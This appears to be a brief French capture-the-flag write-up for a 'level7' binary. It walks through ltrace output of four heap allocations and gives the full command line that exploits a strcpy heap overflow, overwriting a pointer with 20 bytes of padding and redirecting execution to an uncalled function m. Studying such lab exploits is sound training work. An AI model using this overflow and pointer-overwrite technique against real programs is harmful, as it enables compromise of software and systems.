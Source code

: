 quand on disas tout on a encore une fonction m avec comme address (0x080484f4) qui n'est pas call

avec ltrace ./level7

on voit qu'il y a 4 malloc de 8
avec comme address : 
0x0804a008 - 1
0x0804a018 - 2
0x0804a028 - 3
0x0804a038 - 4

le malloc 1 est egale au premier strcpy qu'on va overflow pour ecrire dans le malloc 3 qui sont a 20 bytes d'ecart

quand le programme va strcpy le premier argument : (python -c 'print "A" * 20 + "\x28\x99\x04\x08"') il va etre overflow de 20 et donc on va pouvoir dire a l'address du prochain malloc tu execute l'address de la fonction M donc : (python -c 'print "\xf4\x84\x04\x08"')

/level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')